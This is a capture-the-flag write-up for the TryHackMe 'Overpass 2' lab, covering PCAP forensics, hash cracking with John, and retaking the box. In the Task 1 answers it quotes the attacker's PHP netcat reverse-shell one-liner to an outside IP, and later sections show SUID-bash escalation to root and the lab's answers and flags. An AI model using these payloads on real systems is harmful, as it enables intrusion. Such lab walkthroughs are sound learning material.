






# Overpass 2 - Hacked Writeup

## [Task 1] Forensics - Analyse the PCAP

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing CC: Pentesting and Learn Linux as a bare minimum.

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

### 1 - What was the URL of the page they used to upload a reverse shell?

The URL is /development/

To find this, we open up the pcap in wireshark, right click on a TCP packet and click on Follow --> TCP Stream.
This was found on TCP Stream 1.

### 2 - What payload did the attacker use to gain access?

The payload was a nc payload that can execute in a php file:
    <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

TCP Stream 1.

### 3 - What password did the attacker use to privesc?

TCP Stream 3.
The attacker used the password to cat out the /etc/shadow file.

### 4 - How did the attacker establish persistence?

https://github.com/NinjaJc01/ssh-backdoor

They generated an ssh key and created a backdoor:

### 5 - Using the fasttrack wordlist, how many of the system passwords were crackable?

The /etc/shadow file saved in shadow-file.txt

We can run John on it, using the wordlist "fasttrack". The hashes are SHA-512, so we'll take the hashes into another file (hashes.txt) and run john:

    kali@kali-[]:~/labs/tryhackme/overpass-2$ john --wordlist=/usr/share/wordlists/fasttrack.txt hashes.txt
    Using default input encoding: UTF-8
    Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
    Cost 1 (iteration count) is 5000 for all loaded hashes
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    secret12         (bee)
    abcd123          (szymex)
    1qaz2wsx         (muirland)
    secuirty3        (paradox)
    4g 0:00:00:00 DONE (2020-08-20 18:57) 16.66g/s 925.0p/s 4625c/s 4625C/s Spring2017..starwars
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

4 are crackable, james was not.

## [Task 2] Research - Analyse the code 

Now that you've found the code for the backdoor, it's time to analyse it.

### 1 - What's the default hash for the backdoor?

bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3

Found by cloning the github on my own machine, and then reading the `main.go` file.

### 2 - What's the hardcoded salt for the backdoor?

1c362db832f3f864c8c2fe05f2002a05

Right at the bottom of the main.go file, the salt is used.

### 3 - What was the hash that the attacker used? - go back to the PCAP for this!

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

### 4 - Crack the hash using rockyou and a cracking tool of your choice. What's the password?

Used hash-identifier to find type of hash, possibly SHA-512.
Pasted attacker hash into backdoor-hash.txt, and now will use John and rockyou as the wordlist:
Looking into the main.go file, we can see it uses a SHA-512, with the password first, then the salt.

We search for the right format type in john, using:

    john --list=subformats | grep sha512

and we find this line:

    Format = dynamic_82  type = dynamic_82: sha512($p.$s)

So we modify the backdoor-hash.txt in the format hash$salt, and john:

    john --format=dynamic_82 --wordlists=/usr/share/wordlists/rockyou.txt backdoor-hash.txt

and we get the password REALLY quickly. Output:

    kali@kali-[]:~/labs/tryhackme/overpass-2$ john --format=dynamic_82 --wordlist=/usr/share/wordlists/rockyou.txt backdoor-hash.txt
    
    Using default input encoding: UTF-8
    Loaded 1 password hash (dynamic_82 [sha512($p.$s) 256/256 AVX2 4x])
    Warning: no OpenMP support for this hash type, consider --fork=4
    Press 'q' or Ctrl-C to abort, almost any other key for status
    november16       (?)
    1g 0:00:00:00 DONE (2020-08-20 19:25) 33.33g/s 672000p/s 672000c/s 672000C/s yasmeen..spongy
    Use the "--show --format=dynamic_82" options to display all of the cracked passwords reliably
    Session completed
    
    kali@kali-[]:~/labs/tryhackme/overpass-2$ john --format=dynamic_82 --show backdoor-hash.txt
    ?:november16

    1 password hash cracked, 0 left

So the password is `november16`.

## [Task 3] Attack - Get back in!

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again. There's flags on the box that Overpass can't afford to lose by formatting the server!

    Box IP Addresses:
    10.10.124.195
    10.10.106.59

### 1 - The attacker defaced the website. What message did they leave as a heading?

Message left: H4ck3d by CooctusClan

### 2 - Using the information you've found previously, hack your way back in!

We perform an nmap scan to see what ports are open:

    kali@kali-[10.8.82.167]:~/labs/tryhackme$ nmap -sT -sV -sC 10.10.124.195

    Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-20 19:39 EDT
    Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
    Service scan Timing: About 66.67% done; ETC: 19:39 (0:00:03 remaining)
    Stats: 0:00:21 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
    NSE Timing: About 99.75% done; ETC: 19:39 (0:00:00 remaining)
    Nmap scan report for 10.10.124.195
    Host is up (0.029s latency).
    Not shown: 997 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 e4:3a:be:ed:ff:a7:02:d2:6a:d6:d0:bb:7f:38:5e:cb (RSA)
    |   256 fc:6f:22:c2:13:4f:9c:62:4f:90:c9:3a:7e:77:d6:d4 (ECDSA)
    |_  256 15:fd:40:0a:65:59:a9:b5:0e:57:1b:23:0a:96:63:05 (ED25519)
    80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: LOL Hacked
    2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
    | ssh-hostkey: 
    |_  2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 37.97 seconds

We can see port 2222 is running, and we know the backdoor was created using james' account. So we can assume the username is james, and the password is november16, so lets try to SSH in:

and it works!

Command: ssh james@10.10.124.195 -p 2222

Interesting point here. `november16` is NOT james' password, it seems to just be the password to log in via SSH.

### 3 (Extra 15 points) - What's the user flag?

james@overpass-production:/home/james$ cat user.txt
thm{d119b4fa8c497ddb0525f7ad200e6567}

### 4 (Extra 20 points) - What's the root flag?

So linpeas gave us a couple of clues:

james has sudo privileges. To what, we don't know because we don't know james' password, and so cannot perform `sudo -l`.

Odd file: /home/james/.suid_bash

Has SUID bit set, and can run as root.

So all we need to do is actually just run it:

james@overpass-production:/home/james$ ./.suid_bash -p         
.suid_bash-4.4# whoami
root
.suid_bash-4.4# cat /root/root.txt
thm{d53b2684f169360bb9606c333873144d}

Reason: https://gtfobins.github.io/gtfobins/bash/#suid

Essentially, a local SUID copy of bash was kept with elevated privileges, and you can execute it at any time with elevated privileges using -p. (At least I think that's what it is).

Questions: What does -p do?
